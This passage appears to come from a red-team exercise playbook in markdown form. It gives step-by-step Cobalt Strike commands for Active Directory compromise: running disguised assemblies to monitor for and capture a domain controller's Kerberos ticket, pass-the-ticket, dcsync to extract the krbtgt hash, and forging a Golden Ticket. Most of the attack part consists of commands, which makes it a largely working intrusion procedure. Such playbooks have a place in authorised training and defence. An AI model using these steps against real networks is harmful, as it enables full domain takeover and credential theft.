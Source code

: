 ```
execute-assembly /home/kali/24_ME_01/HealthMonitor.exe monitor /nowrap /interval:2 /runfor:60 /targetuser:mda-dc2
```

on XXX-S6-1

```
execute-assembly /home/kali/24_ME_01/HPUpdate.exe mda-dc2 mda-shrpt
```


![[attachments/Plan_image_20_20231011013207.png]]
<center> Success! </center>

You should get the DC's base64 encoded ticket in an easy to copy format.

You should then use ptt to get the ticket on the S6 computer, since the SHRPT server doesn't have domain rights.

```
execute-assembly /home/kali/24_ME_01/HealthMonitor.exe ptt /ticket:<the base64 encoded ticket from earlier>
```

>[!warning]- Troubleshooting
>Make sure to trim any white space off the end. The example hash is from the MDA side, and should be different for the PAO side.


## Golden Ticket
### dcsync

Next you will use DC's ticking in order to pull the krbtgt hash from the DC with dcsync.

```
dcsync mda.mil mda\krbtgt
```

![[attachments/Plan_image_21_20231011013207.png]]

### Craft Ticket

Next we will utilize Cobalt Strike's Golden Ticket function. 

**Creating a Golden Ticket requires 4 things:**
- User Name
- Domain
- Domain SID
- KRBTGT Hash

We have all four of these things from running dcsync. For the Domain sid, remove the last field (the RID).

- Right click the HelpDesk beacon
- `Access` -> `Golden Ticket`

![[attachments/Plan_image_22_20231011013207.png]]
